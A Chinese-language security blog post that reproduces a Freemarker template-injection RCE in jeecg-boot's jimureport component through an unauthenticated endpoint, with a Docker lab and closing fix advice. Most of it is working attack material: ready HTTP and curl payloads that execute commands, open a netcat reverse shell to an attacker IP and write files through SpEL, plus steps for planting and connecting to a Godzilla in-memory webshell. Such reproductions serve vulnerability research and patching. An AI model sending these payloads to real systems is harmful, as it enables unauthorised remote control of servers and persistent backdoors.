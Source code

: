 ```yaml
---
title: Freemarker 模板注入到内存马
date: "2023-08-23 22:13:00"
index_img: https://cdn.jsdelivr.net/gh/ReaJason/blog_imgs/FirstTechnicalInterview_index_img.png
tags: [Notes]
categories: [Summary]
description: "Freemarker SSTI RCE 到内存马"
---
```


## TLDR
在已知 [jeecg-boot](https://github.com/jeecgboot/jeecg-boot) 企业级开源项目存在 ssti 漏洞但不知道具体位置的情况下，通过搜索注入特征点找到了未授权即可访问的 web api 点，并通过自动生成内存马工具进行注入，实现对目标机器的控制，该漏洞属于 RCE 高危漏洞。

## 漏洞影响范围
> https://www.oschina.net/news/254100
- 集成了 [jimureport <= 1.6.0](http://jimureport.com/) 的系统，例  [jeecg-boot v3.5.3](https://github.com/jeecgboot/jeecg-boot/releases/tag/v3.5.3)

## 漏洞复现环境
> 需要 Docker 环境，使用 docker-compose.yaml 启动漏洞复现环境
```yaml
version: '2'
services:
  jeecg-boot-mysql:
    image: reajason/jeecg-boot-mysql:3.5.3
    environment:
      MYSQL_ROOT_PASSWORD: root
      MYSQL_ROOT_HOST: '%'
      TZ: Asia/Shanghai
    restart: always
    container_name: jeecg-boot-mysql
    command:
      --character-set-server=utf8mb4
      --collation-server=utf8mb4_general_ci
      --explicit_defaults_for_timestamp=true
      --lower_case_table_names=1
      --max_allowed_packet=128M
      --default-authentication-plugin=caching_sha2_password

  jeecg-boot-redis:
    image: redis:5.0
    restart: always
    hostname: jeecg-boot-redis

  jeecg-boot-system:
    image: reajason/jeecg-boot-system:3.5.3
    restart: on-failure
    depends_on:
      - jeecg-boot-mysql
      - jeecg-boot-redis
    hostname: jeecg-boot-system
    ports:
      - 8080:8080
```

启动 docker 环境：`docker-compose up -d` 或 `docker compose up -d`

后端接口访问地址：`http://localhost:8080/jeecg-boot`
积木报表地址：`http://localhost:8080/jeecg-boot/jmreport/list`

## 漏洞触发
未授权漏洞点：`http://localhost:8080/jeecg-boot/jmreport/queryFieldBySql`

### RCE

#### 1. 执行 id 命令

**payload:** `<#assign ex="freemarker.template.utility.Execute"?new()>${ex("id")}`

HTTP 请求体
```http
POST /jeecg-boot/jmreport/queryFieldBySql HTTP/1.1
Host: localhost:8080
Content-Type: application/json

{
    "sql": "<#assign ex=\"freemarker.template.utility.Execute\"?new()>${ex(\"id\")}",
    "type": "0"
}

```
curl 命令
```bash
curl --location 'http://localhost:8080/jeecg-boot/jmreport/queryFieldBySql' \
--header 'Content-Type: application/json' \
--data '{
    "sql": "<#assign ex=\"freemarker.template.utility.Execute\"?new()>${ex(\"id\")}",
    "type": "0"
}'
```

可查看容器日志查看执行结果（debug 日志，为方便测试漏洞环境开启了 debug 日志）：
```bash
2023-08-23 22:05:09.739 [http-nio-8080-exec-1] DEBUG o.j.m.j.common.interceptor.JimuReportInterceptor:48 - JimuReportInterceptor check requestPath = /jmreport/queryFieldBySql
2023-08-23T14:05:09.765672857Z 2023-08-23 22:05:09.760 [http-nio-8080-exec-1] DEBUG o.j.m.j.common.interceptor.JimuReportInterceptor:56 - customPrePath: null
2023-08-23T14:05:09.785445737Z 2023-08-23 22:05:09.783 [http-nio-8080-exec-1] DEBUG org.jeecg.modules.jmreport.desreport.a.a:766 - ============解析sql==========
2023-08-23T14:05:09.804763148Z 2023-08-23 22:05:09.803 [http-nio-8080-exec-1] DEBUG o.j.m.j.desreport.render.utils.FreeMarkerUtils:102 - 模板内容:<#assign ex="freemarker.template.utility.Execute"?new()>${ex("id")}
2023-08-23T14:05:09.911876597Z 2023-08-23 22:05:09.907 [http-nio-8080-exec-1] DEBUG o.j.m.j.desreport.render.utils.FreeMarkerUtils:104 - 模板解析结果:uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

#### 2. 反弹 shell

本机开启端口监听：`nc -lvvp 2333`
查看本机 IP：`192.168.1.5`
**payload:** `<#assign ex="freemarker.template.utility.Execute"?new()>${ex("nc 192.168.1.5 2333 -e /bin/bash")}`

HTTP 请求体
```http
POST /jeecg-boot/jmreport/queryFieldBySql HTTP/1.1
Host: localhost:8080
Content-Type: application/json

{
    "sql": "<#assign ex=\"freemarker.template.utility.Execute\"?new()>${ex(\"nc 192.168.1.5 2333 -e /bin/bash\")}",
    "type": "0"
}
```
curl 命令
```bash
curl --location 'http://localhost:8080/jeecg-boot/jmreport/queryFieldBySql' \
--header 'Content-Type: application/json' \
--data '{
    "sql": "<#assign ex=\"freemarker.template.utility.Execute\"?new()>${ex(\"nc 192.168.1.5 2333 -e /bin/bash\")}",
    "type": "0"
}'
```

![反弹 shell](https://cdn.jsdelivr.net/gh/ReaJason/blog_imgs/FreemarkerSSTIMemShell_img/shell.png)

### SPEL

#### 1. 写文件

**payload1:** `${"freemarker.template.utility.ObjectConstructor"?new()("org.springframework.expression.spel.standard.SpelExpressionParser").parseExpression("T(org.apache.commons.io.FileUtils).writeStringToFile(new java.io.File('/tmp/hello.txt'), 'hello freemarker ssti~\n')").getValue()}`

**payload2:** `<#assign ex=\"freemarker.template.utility.ObjectConstructor\"?new()>${ex(\"org.springframework.expression.spel.standard.SpelExpressionParser\").parseExpression(\"T(org.apache.commons.io.FileUtils).writeStringToFile(new java.io.File('/tmp/hello.txt'), 'hello freemarker ssti~\n')\").getValue()}`

HTTP 请求体
```http
POST /jeecg-boot/jmreport/queryFieldBySql HTTP/1.1
Host: localhost:8080
Content-Type: application/json

{
    "sql": "${\"freemarker.template.utility.ObjectConstructor\"?new()(\"org.springframework.expression.spel.standard.SpelExpressionParser\").parseExpression(\"T(org.apache.commons.io.FileUtils).writeStringToFile(new java.io.File('/tmp/hello.txt'), 'hello freemarker ssti~\n')\").getValue()}",
    "type": "0"
}
```

curl 命令
```bash
curl --location 'http://localhost:8088/jeecg-boot/jmreport/queryFieldBySql' \
--header 'Content-Type: application/json' \
--data '{
    "sql": "${\"freemarker.template.utility.ObjectConstructor\"?new()(\"org.springframework.expression.spel.standard.SpelExpressionParser\").parseExpression(\"T(org.apache.commons.io.FileUtils).writeStringToFile(new java.io.File('\''/tmp/hello.txt'\''), '\''hello freemarker ssti~\n'\'')\").getValue()}",
    "type": "0"
}'
```

### 一键哥斯拉内存马
> 一键生成内存马工具：https://github.com/pen4uin/java-memshell-generator

> 哥斯拉工具：https://github.com/BeichenDream/Godzilla

由于当前接口代码逻辑放置了大量正则进行 SQL 注入检测，故直接使用 freemarker 进行内存马注入会卡在正则过滤上，在老大的帮助下，使用了先写入内存马 jar 文件后再加载内存马类的方式来实现内存马注入。

1. 注入内存马

下载 [脚本](https://gist.github.com/ReaJason/68fce1f02b0f6f51b8d0984e4266c3ff) 将其命名为 `jeecg-boot-godzilla.py`，编辑脚本将 `back_url` 设置成漏洞复现后端地址例如：`http://localhost:8080/jeecg-boot`，执行 `python jeecg-boot-godzilla.py` 运行脚本等待内存马注入完成。

2. 连接内存马

下载 [godzilla](https://github.com/BeichenDream/Godzilla/releases/tag/v4.0.1-godzilla)，使用 `java -jar godzilla.jar` 启动 `godzilla`，点击目标添加，输入如下参数。

地址请使用 Docker 所在主机 IP，例 `192.168.1.5`

URL：`http://192.168.1.5:8080/jeecg-boot/`
密码：`pass`
密钥：`key`
User-Agent: `Kndux`，将其添加到请求配置其中即可

![基础配置](https://cdn.jsdelivr.net/gh/ReaJason/blog_imgs/FreemarkerSSTIMemShell_img/godzillaConfig.png)

![请求配置](https://cdn.jsdelivr.net/gh/ReaJason/blog_imgs/FreemarkerSSTIMemShell_img/user-agent.png)

![进入成功](https://cdn.jsdelivr.net/gh/ReaJason/blog_imgs/FreemarkerSSTIMemShell_img/success.png)

## 漏洞修复建议
1. 将 `jimureport-spring-boot-starter` 第三方依赖升级至 1.6.1 以上版本
2. 将 `/jmreport/queryFieldBySql` 接口进行登录认证。
3. 使用 [靖云甲 RASP](https://www.boundaryx.com/category/product/adr) 时刻保护应用安全，有效防护开源第三方库潜在的 0day 漏洞。

## 延伸阅读
- [jeecg-boot / 积木报表基于 SSTI 的任意代码执行漏洞](https://www.oschina.net/news/254100)
- [Server Side Template Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
- [Memoryshell-JavaALL](https://github.com/achuna33/Memoryshell-JavaALL)
- [Godzilla](https://github.com/BeichenDream/Godzilla)
- [java-memshell-generator](https://github.com/pen4uin/java-memshell-generator)
